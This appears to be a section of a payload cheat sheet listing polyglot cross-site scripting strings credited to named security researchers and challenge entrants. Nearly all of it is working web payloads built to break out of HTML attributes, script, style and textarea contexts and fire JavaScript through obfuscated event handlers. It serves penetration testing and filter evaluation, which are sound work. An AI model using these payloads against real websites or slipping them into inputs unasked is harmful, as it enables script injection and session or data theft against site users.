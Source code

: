 Polyglot XSS - Mathias Karlsson

```javascript
" onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
```

Polyglot XSS - Rsnake

```javascript
';alert(String.fromCharCode(88,83,83))//';alert(String. fromCharCode(88,83,83))//";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))//-- ></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83)) </SCRIPT>
```

Polyglot XSS - Daniel Miessler

```javascript
';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
“ onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
'">><marquee><img src=x onerror=confirm(1)></marquee>"></plaintext\></|\><plaintext/onmouseover=prompt(1)><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->"></script><script>alert(1)</script>"><img/id="confirm&lpar;1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http://i.imgur.com/P8mL8.jpg">
javascript://'/</title></style></textarea></script>--><p" onclick=alert()//>*/alert()/*
javascript://--></script></title></style>"/</textarea>*/<alert()/*' onclick=alert()//>a
javascript://</title>"/</script></style></textarea/-->*/<alert()/*' onclick=alert()//>/
javascript://</title></style></textarea>--></script><a"//' onclick=alert()//>*/alert()/*
javascript://'//" --></textarea></style></script></title><b onclick= alert()//>*/alert()/*
javascript://</title></textarea></style></script --><li '//" '*/alert()/*', onclick=alert()//
javascript:alert()//--></script></textarea></style></title><a"//' onclick=alert()//>*/alert()/*
--></script></title></style>"/</textarea><a' onclick=alert()//>*/alert()/*
/</title/'/</style/</script/</textarea/--><p" onclick=alert()//>*/alert()/*
javascript://--></title></style></textarea></script><svg "//' onclick=alert()//
/</title/'/</style/</script/--><p" onclick=alert()//>*/alert()/*
```

Polyglot XSS - [@s0md3v](https://twitter.com/s0md3v/status/966175714302144514)
![https://pbs.twimg.com/media/DWiLk3UX4AE0jJs.jpg](https://pbs.twimg.com/media/DWiLk3UX4AE0jJs.jpg)

```javascript
-->'"/></sCript><svG x=">" onload=(co\u006efirm)``>
```

![https://pbs.twimg.com/media/DWfIizMVwAE2b0g.jpg:large](https://pbs.twimg.com/media/DWfIizMVwAE2b0g.jpg:large)

```javascript
<svg%0Ao%00nload=%09((pro\u006dpt))()//
```

Polyglot XSS - from [@filedescriptor's Polyglot Challenge](http://polyglot.innerht.ml)

```javascript
# by crlf
javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*&lt;svg/*/onload=alert()//>

# by europa
javascript:"/*'/*`/*\" /*</title></style></textarea></noscript></noembed></template></script/-->&lt;svg/onload=/*<html/*/onmouseover=alert()//>

# by EdOverflow
javascript:"/*\"/*`/*' /*</template></textarea></noembed></noscript></title></style></script>-->&lt;svg onload=/*<html/*/onmouseover=alert()//>

# by h1/ragnar
javascript:`//"//\"//</title></textarea></style></noscript></noembed></script></template>&lt;svg/onload='/*--><html */ onmouseover=alert()//'>`
```